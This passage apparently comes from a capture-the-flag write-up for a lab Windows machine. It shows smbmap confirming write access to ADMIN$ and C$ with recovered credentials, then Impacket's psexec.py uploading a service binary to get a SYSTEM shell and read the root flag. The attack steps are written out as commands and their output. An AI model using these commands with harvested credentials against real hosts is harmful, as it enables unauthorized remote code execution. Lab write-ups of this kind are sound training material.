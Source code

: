 ```

root@kali# smbmap -H 10.10.10.152 -u anon -p "p3nT3st!"
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.152...
[+] IP: 10.10.10.152:445        Name: 10.10.10.152
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  READ, WRITE
        C$                                                      READ, WRITE
        IPC$                                                    READ ONLY

```

### Shell

Now I can use many different ways to get a shell. I’ll take a simple `psexec.py`:

```

root@kali# psexec.py 'anon:p3nT3st!@10.10.10.152'
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file tbwyLJgn.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service PdOp on 10.10.10.152.....
[*] Starting service PdOp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```

From there, I can grab `root.txt`:

```

C:\Users\Administrator\Desktop>type root.txt
3018977f...

```